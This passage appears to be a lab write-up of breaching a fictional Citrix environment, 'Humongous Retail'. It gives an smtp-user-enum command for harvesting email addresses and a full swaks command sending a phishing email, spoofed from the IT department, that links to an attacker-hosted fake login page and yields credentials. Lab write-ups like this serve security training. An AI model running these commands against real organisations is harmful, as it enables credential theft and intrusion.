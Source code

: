 Visiting the endpoint presents a Citrix XenApp installation. After skipping it, a login portal appears.
![](https://photos.squarezero.dev/file/abir-images/xen/5.png)
![](https://photos.squarezero.dev/file/abir-images/xen/6.png)

# Breach
## SMTP
Using **smtp-user-enum**, I discovered multiple email addresses associated with Humongous Retail.
`smtp-user-enum -U /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -D humongousretail.com -t 10.13.38.12 -m 20 -M RCPT`
![](https://photos.squarezero.dev/file/abir-images/xen/7.png)

## Phishing
After obtaining usernames, I used **swaks** to send phishing emails from the IT department to the Sales department. 
`swaks --body 'Please click here http://10.10.16.102/remote/auth/login.aspx' --add-header "MIME-Version: 1.0" --add-header "Content-Type: text/html" --header "Subject: Issues with mail" -f it@humongousretail.com -t sales@humongousretail.com --server 10.13.38.12`
![](https://photos.squarezero.dev/file/abir-images/xen/8.png)

After sending multiple emails, I obtained three sets of credentials.
![](https://photos.squarezero.dev/file/abir-images/xen/9.png)

## Citrix Installation
Upon logging into the portal, I was able to download the configuration file.
![](https://photos.squarezero.dev/file/abir-images/xen/10.png)

Unfortunatly this lab provies 32bit Citrix receiver app. I was able to download [latest](https://www.citrix.com/downloads/citrix-receiver/linux/receiver-for-linux-latest.html) tarball packages. Then used open the config with Citrix receiver
Unfortunately, this lab provides only a 32-bit Citrix Receiver application. I downloaded the [latest version](https://www.citrix.com/downloads/citrix-receiver/linux/receiver-for-linux-latest.html) and used it to open the configuration file.
![](https://photos.squarezero.dev/file/abir-images/xen/11.png)

Finally, I gained a foothold and retrieved the flag from the Desktop.
![](https://photos.squarezero.dev/file/abir-images/xen/12.png)

# Deploy 
## Shell Restriction
Inside the Windows 7 workstation, both CMD and PowerShell were restricted
![](https://photos.squarezero.dev/file/abir-images/xen/13.png)
